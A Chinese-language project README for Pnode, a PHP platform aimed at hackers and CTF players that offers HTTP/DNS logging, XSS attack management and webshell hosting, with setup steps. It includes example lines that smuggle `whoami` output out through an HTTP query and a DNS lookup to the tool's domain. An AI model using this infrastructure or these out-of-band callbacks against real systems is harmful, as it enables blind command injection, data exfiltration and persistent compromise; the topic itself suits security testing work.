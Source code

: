 ```
   ___                 _      
  / _ \_ __   ___   __| | ___ 
 / /_)/ '_ \ / _ \ / _` |/ _ \
/ ___/| | | | (_) | (_| |  __/
\/    |_| |_|\___/ \__,_|\___|
                              
```

ps: 请使用chrome浏览器

更新日志:

```
2019-01-19 首次公开
2019-03-19 增加DNS rebinding
```

### 项目名称

Pnode

### 项目描述

前端使用Boostrap框架，后端使用thinkphp5框架开发

适用于hacker&CTFer

可以满足日常的需求，并且可以直接在WEB端管理&编辑一些文件用于远程加载

### 功能介绍

* HTTP log
* DNS log
* XSS攻击管理模块
* WebShell等文件管理模块

```
curl http://127.0.0.1:10082/public/?c=`whoami`
```



![](https://ws4.sinaimg.cn/large/006tNc79ly1fzbpadxielj31ik0m6ac2.jpg)



```
ping -c 2 `whoami`.pnode.tk
```



![](https://ws1.sinaimg.cn/large/006tNc79ly1fzb0a7st2ej31fc0dmdi0.jpg)

![](https://ws1.sinaimg.cn/large/006tNc79ly1fzbr5mp56uj31fb0u0afo.jpg)

![](https://ws2.sinaimg.cn/large/006tNc79ly1fzbr6j7i0zj31r00su41a.jpg)





### 环境部署

LAMP环境即可

修改database.php中数据库账号密码

自行修改默认登陆密码(md5后的)

```
update users set password=md5('admin') where username='admin'
```

如果需要DNS log功能,首先`https://my.freenom.com/`注册一个账号,然后免费申请一个域名

![](https://ws3.sinaimg.cn/large/006tNc79ly1fzb0n0s9k9j320g0rygu7.jpg)

![](https://ws4.sinaimg.cn/large/006tNc79ly1fzb0otdeumj31se0o2n0g.jpg)

然后将你的vps的外网ip填入

然后一直继续即可

然后将dns.py放入到`/tmp`目录下

修改dns.py为你的域名和你的vps ip,然后手动启动dns服务

```
nohup python /tmp/dns.py &
```

在一个小时左右将会解析成功,然后就可以接受到log。


* PS:部分模块代码取自火日师傅项目,感谢。
